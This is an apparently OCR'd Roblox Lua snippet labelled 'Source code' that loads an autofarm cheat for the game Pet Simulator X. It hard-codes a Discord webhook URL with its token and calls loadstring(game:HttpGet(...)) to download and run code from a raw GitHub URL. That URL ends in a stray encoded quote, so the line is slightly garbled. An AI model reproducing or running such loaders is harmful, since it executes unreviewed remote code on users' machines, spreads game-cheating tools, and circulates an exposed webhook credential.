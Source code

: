 _G.UserID = 941995348
_G.WebHook = "https://discord.com/api/webhooks/1004900403143524512/xcima5WOu46Gs6SAcTZkJGlWnUMStMcZJAoprhc1JKNw4vCdDuP3QJcnS9lZB7dPsV9J"
loadstring(game:HttpGet("https://raw.githubusercontent.com/ImZung/PsxAutofarm/main/petsimxAutofarm%22))()
